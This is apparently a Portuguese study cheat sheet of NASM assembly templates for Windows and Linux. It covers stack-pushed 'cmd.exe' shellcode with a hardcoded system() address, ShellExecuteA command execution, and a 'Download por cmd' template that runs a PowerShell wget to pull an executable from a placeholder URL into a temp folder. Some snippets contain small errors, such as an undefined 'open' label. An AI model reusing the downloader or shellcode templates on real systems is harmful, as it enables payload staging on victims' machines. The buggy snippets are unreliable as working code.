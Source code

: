 # Syntax Intel vs AT&T

![Diferença de Syntax](Syntax.png)

# Instruções

![Instruções](Instrucoes.png)

# Windows

## Instruções
Os comandos devem ser enviado a stack pelo push de forma invertida e com 00 no final. 
Exemplo: cmd.exe → 00exe.cmd, em hex 63 6D 64 2E 65 78 65 → 00657865 2E646D63

---

Sempre verificar os parâmetros da função e enviar ao contrário os argumentos

---
Como compilar: 
``nasm -f win32 <file.asm>``
``golink /entry _main <file.obj> <dll> ``

---
Para pesquisar:
Forma básica: ``arwin <dll name> <function name>``

---
## Exemplos
### Cmd
```nasm
***extern system***
global _main

section .text ;Define a sessão de código
_main: ;Define a main

	push 0x00657865 ;00exe
	push 0x2e646d63 ;.cmd
	push esp
	pop eax
	push eax
	mov ebx, 0x76453dc0 ;Chama o system
	call ebx
```
---
### Caixa de texto
```nasm
extern _MessageBoxA
global _main

section .data
	msg db "<msg>",0
	title db "<title>",0

section .text
_main:
	push 0
	push title
	push msg
	push 0
	call _MessageBoxA
```
---
### Execução de comandos no cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c <command>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push open
	push 0
	call _ShellExecuteA
```
---
### Download por cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c  powershell -Command wget '<url.exe>' -OutFile <dir> (C:windows\\temp\\<file.exe> ., C:Users\\<user>\\<file.exe>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push open
	push 0
	call _ShellExecuteA
```
---
# Linux
## Instruções

Como compilar em x86: 
``nasm -f elf32 <file.asm> ld --entry main <file.o> -m elf_i386 -o <output file>``

---
Como compilar em x64: 
``nasm -f elf64 <file.asm> ld --entry _main <file.o> -o <output file>``

---
## Sites Úteis
[https://syscalls.w3challs.com/?arch=x86](https://syscalls.w3challs.com/?arch=x86)

[https://syscalls.w3challs.com/?arch=x86_64](https://syscalls.w3challs.com/?arch=x86_64)

---
## Exemplos
### Texto no bash x86
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov eax, 4
	mov ebx, 1; STDIN0, STDOUT1, STDERR2
	mov ecx, <text>
	mov edx, <size>
	int 0x80

	mov eax, 1
	mov ebx, 0
int 0x80
```
---
### Texto no bash x64
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov rax, 1
	mov rdi, 1; STDIN0, STDOUT1, STDERR2
	mov rsi, <text>
	mov rdx, <size>
	syscall

	mov rax, 60
	mov rdi, 0
	syscall
```
